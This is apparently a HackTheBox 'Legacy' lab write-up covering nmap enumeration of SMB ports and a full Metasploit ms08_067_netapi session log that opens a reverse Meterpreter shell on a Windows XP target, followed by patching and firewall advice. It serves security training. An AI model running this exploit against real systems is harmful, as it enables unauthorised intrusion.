 ```yaml
---
layout: page
title: HackTheBox Legacy
---
```


Legacy is a challenge that is fairly simplistic, uncomplicated challenge. Doing this challenge highlights the security vulnerabilities that are associated with SMB on Windows. To do this challenge, the skills required isn’t too high, one just needs to know how to enumerate the box/network and basic windows knowledge. Doing this challenge will develop skills such as identifying services that are vulnerable to attacks, how to carry out said attacks, and any tools used.

### Enumeration - two ways

There a couple options/tools one can use for enumeration. One of which is zenmap (basically nmap GUI). One can open the zenmap by simply typing ```zenmap``` in the console (in Kali Linux). When zenmap is opened, typing in the machine's ip ```10.10.10.4``` and using the ```intenese scan``` will yield the result:

![legacy](https://user-images.githubusercontent.com/41026969/52360132-4871ca80-2a09-11e9-8881-d19973e720a4.png)
![legacy](https://user-images.githubusercontent.com/41026969/52360714-ae128680-2a0a-11e9-8a3f-6786cef4cde0.png)

Reading the above, we can see that SMB is left open, it is also revealed that the OS is likely to be Windows XP.

Zenmap isn't necessary to enumerate, one can also use ```nmap```. More specifically I like to add the following ```nmap -Pn --script [address]```. When doing so on the target IP, we get the result:

![legacy](https://user-images.githubusercontent.com/41026969/52376078-32770080-2a2f-11e9-8242-3e4ca8fc9254.PNG)

So using one of the scans above, we learn that port 139 and 445 are open. Reading about the ports ([here](https://www.thewindowsclub.com/smb-port-what-is-port-445-port-139-used-fora0) and [here](https://docs.microsoft.com/en-us/windows/desktop/fileio/microsoft-smb-protocol-and-cifs-protocol-overviewa0)) we learn that port 139 is used for TCP NetBios connections with a system running Samba (SMB) to facilitate file sharing activities over a connection. Also we learn that port 445  is ```‘SMB over IP’```. Continuing to read about port 445 reveals that SMB can be a vulnerability ```Port 445 is vulnerable and has many insecurities```. 

### Exploiting

Googling exploits for Windows XP SMB exploit we find a module that we can use using metasploit - ```exploit/windows/smb/ms08_067_netapi```. Here's what I did with metasploit:
```
       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set rhost 10.10.10.4
rhost => 10.10.10.4
msf exploit(windows/smb/ms08_067_netapi) > set rport 445
rport => 445
msf exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on [host IP]
[*] [host IP] - Automatically detecting the target...
[*] [host IP] - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] [host IP] - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] [host IP] - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened ([host IP] -> 10.10.10.4:1029) at 2019-02-06 18:01:37 -0500
```
Going through command by command, first I set the remote host ```rhost``` to the target IP, then I set the remote port using ```rport``` then using the command ```exploit``` will carry out the exploit. Doing so succesfully will get us a shell in the system (note: remember this is a windows system). 

Looking up for the [file system path](https://www.computerhope.com/issues/ch000928.htm), we see that for Windows XP 2000, we use the path ```c:\documents and settings\(username)\desktop``` to get to a user's desktop to look for flags. I used the commands ```pwd``` and the ```cd ..``` to print the working directory and to change directory (the ```..``` will go to the directory above) to navigate throughout the box. 

Looking around the machine, we find an ```Administration``` account and another account named ```john```. Looking at their desktops we get the root and the user flag!
 
### Post exploitation 
Doing this challenge I learned what port 139 and 445 does and what SMB is and does. Continuing to research these ports, I learned that port 445 is vulnerable as seen from the box. To defend against this attack, using windows firewall to not keep ports (in this case, 139 and 445) open. One can also do security patches and updates for their Windows version to protect against CVEs. 